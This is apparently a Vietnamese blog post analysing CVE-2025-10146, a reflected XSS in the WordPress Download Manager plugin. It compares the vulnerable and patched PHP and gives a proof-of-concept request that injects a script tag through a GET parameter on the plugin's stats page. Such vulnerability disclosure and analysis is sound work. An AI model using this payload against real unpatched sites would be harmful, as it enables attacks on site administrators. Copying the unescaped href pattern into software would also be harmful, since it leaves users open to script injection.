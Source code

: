 ```yaml
---
title: CVE-2025-10146 Analysis & POC
description: Security Vulnerability in WordPress Download Manager Plugin.
date: 2025-09-22 11:18:00 +0700
categories: [Vulnerabilities, CVE Analyst]
tags: [analyst, plugin, xss]
---
```


Lỗ hổng trong plugin **Download Manager** trước phiên bản **3.3.24**. Dữ liệu được lấy từ **GET** request được in trực tiếp vào **HTML attribute**, **reflected XSS** xảy ra khi người dùng có đặc quyền truy cập vào đường dẫn do attack cung cấp.
- **CVE ID**: [CVE-2025-10146](https://www.cve.org/CVERecord?id=CVE-2025-10146)
- **Product**: [WordPress Download Manager Plugin](https://wordpress.org/plugins/download-manager)
- **Vulnerability Type**: Cross Site Scripting
- **Affected Versions**: <= 3.3.23
- **CVSS severity**: Medium (7.1) 
- **Required Privilege**: Unauthenticated

## Requirements
- [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
- **Download Manager**: v3.3.23(vul) và v3.3.24(fix)
- **diff tool**: **meld** hoặc bất cứ tool nào có thể compare để thấy được sự khác biệt giữa 2 version

## Analysis
### Patch Diff
Dùng diff tool bất kì để so sánh sự khác biệt giữa bản lỗi và bản vá.
Có sự khác biệt rõ ở file **src/Admin/views/stats/history.php**.

**Bản lỗi**:

```php
<?php if (!empty($user_ids)): ?>
    <div class="clear-filter">
        <?php
        $get_params_xu = $get_params;
        unset($get_params_xu['user_ids']);
        $reset_url = add_query_arg($get_params_xu, 'edit.php');
        ?>
        <a href="<?php echo $reset_url; ?>" class="clear-btn" title="<?php _e('Clear user filter', 'download-manager'); ?>">
            <i class="fas fa-times"></i>
        </a>
    </div>
<?php endif; ?>
```

Lấy **GET params** và gán trực tiếp vào **href** của thẻ `<a>` mà không có cơ chế bảo vệ => nguy cơ **reflected XSS**.

**Bản vá**:

```php
<?php if (!empty($user_ids)): ?>
    <div class="clear-filter">
        <?php
        $get_params_xu = $get_params;
        unset($get_params_xu['user_ids']);
        $get_params_xu = \WPDM\__\__::sanitize_array($get_params_xu, 'safetxt');

        $reset_url = add_query_arg($get_params_xu, 'edit.php');
        ?>
        <a href="<?php echo esc_url($reset_url); ?>" class="clear-btn" title="<?php _e('Clear user filter', 'download-manager'); ?>">
            <i class="fas fa-times"></i>
        </a>
    </div>
<?php endif; ?>
```

Bản vá đã **sanitize** mảng **GET params** bằng `sanitize_array` và sử dụng `esc_url`  để **escape URL** => an toàn hơn.

![Patch Diff](images/posts/2025-09-22-CVE-2025-10146/patch_diff.png)

### How It Work?
Ta cần tìm URL thực sự để inject GET params chứa XSS payload.

**src/Admin/views/stats/history.php** chứa các tag **php**, **HTML** và nằm trong **views** cho thấy file này được include ở nơi nào đó trong mã nguồn plugin.

Ta tìm với từ khóa `history.php` trong thư mục plugin

![Search 1](images/posts/2025-09-22-CVE-2025-10146/search1.png)

👉 Không có kết quả nào khớp. Khả năng cao nó được include động như này `{$file_name}.php`. Ta tìm với regex `\{.*\}\.php`:

![Search 2](images/posts/2025-09-22-CVE-2025-10146/search2.png)

**src/Admin/views/stats/history.php** được include trong **src/Admin/views/stats.php**

URL thực sự để truy cập được khai báo ở đầu file **stats.php** 

```
$base_page_uri = "edit.php?post_type=wpdmpro&page=wpdm-stats";
```

Tương tự **history.php**, **stats.php** cũng được include ở đâu đó trong mã nguồn plugin. Nhưng không cần quan tâm vì ta đã tìm được URL thực sự.

Để chắc chắn hơn, ta đặt **breakpoint** tại vị trí lỗ hổng trong file **src/Admin/views/stats/history.php**, sau đó bắt đầu debug và truy cập URL:

```
edit.php?post_type=wpdmpro&page=wpdm-stats
```

![Debug](images/posts/2025-09-22-CVE-2025-10146/debug.png)

Trước tiên, plugin lấy toàn bộ **GET parameters** vào `$get_params`. 

Nếu `$user_ids` không rỗng, plugin sẽ tạo **nút “Clear filter”**. Để làm nút này hoạt động, cần một URL mà **không còn `user_ids`** nữa, nên plugin làm như sau:

```php
$get_params_xu = $get_params;        // copy toàn bộ GET parameters
unset($get_params_xu['user_ids']);   // bỏ user_ids ra khỏi mảng
$reset_url = add_query_arg($get_params_xu, 'edit.php'); // tạo URL mới
```

* `unset($get_params_xu['user_ids'])` => loại bỏ bộ lọc `user_ids` khỏi URL.
* `add_query_arg($get_params_xu, 'edit.php')` > tạo URL mới với các tham số còn lại.

Cuối cùng, URL này được gắn vào nút “Clear filter”:

```php
<a href="<?php echo $reset_url; ?>" class="clear-btn">...</a>
```

**Kết quả:** Khi người dùng nhấn nút, trang sẽ load lại **mà không còn bộ lọc user_ids**, tức là `“clear filter”`.

## Exploit 
### Detect XSS
Gửi GET request chứa XSS payload:

```http
GET /wp-admin/edit.php?post_type=wpdmpro&page=wpdm-stats&user_ids[0]=1&payload="></a><script>alert(document.domain)</script> HTTP/1.1
```

Ta thêm `"></a>` để đóng thẻ `<a>` sau đó thêm 1 script dể `alert()`

![XSS](images/posts/2025-09-22-CVE-2025-10146/xss.png)

👉 XSS thành công, khi người dùng có đặc quyền truy cập vào URL do attacker cung cấp thì **reflected XSS** xảy ra => Xảy ra đúng kịch bản **Unauthenticated**

---

## Conclusion

Lỗ hổng **CVE-2025-10146** trong plugin **WordPress Download Manager <= 3.3.23** là **reflected XSS**, xảy ra khi dữ liệu từ **GET request** được in trực tiếp vào **HTML attribute** mà không được sanitize hoặc escape. Người dùng có quyền truy cập vào đường dẫn này (admin/author) có thể bị tấn công nếu truy cập URL do attacker tạo.

Bản vá **3.3.24** đã:

1. **Sanitize mảng GET parameters** (`sanitize_array`) để loại bỏ ký tự nguy hiểm.
2. **Escape URL** khi in ra HTML (`esc_url`) để ngăn XSS.

**Key takeaways**:

* Luôn **sanitize và escape dữ liệu** từ người dùng trước khi render ra HTML.
* Kiểm tra **quyền truy cập** trước khi xử lý hoặc hiển thị dữ liệu nhạy cảm.
* Ngay cả các role thấp (contributor) vẫn có thể trở thành điểm tấn công nếu plugin không bảo vệ đúng cách.
* Cập nhật plugin thường xuyên là cách phòng thủ đơn giản nhưng hiệu quả nhất.

---

## References

[Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress Download Manager Plugin <= 3.3.24 is vulnerable to Cross Site Scripting (XSS)](https://patchstack.com/database/wordpress/plugin/download-manager/vulnerability/wordpress-download-manager-plugin-3-3-23-reflected-cross-site-scripting-via-user-ids-parameter-vulnerability) 

---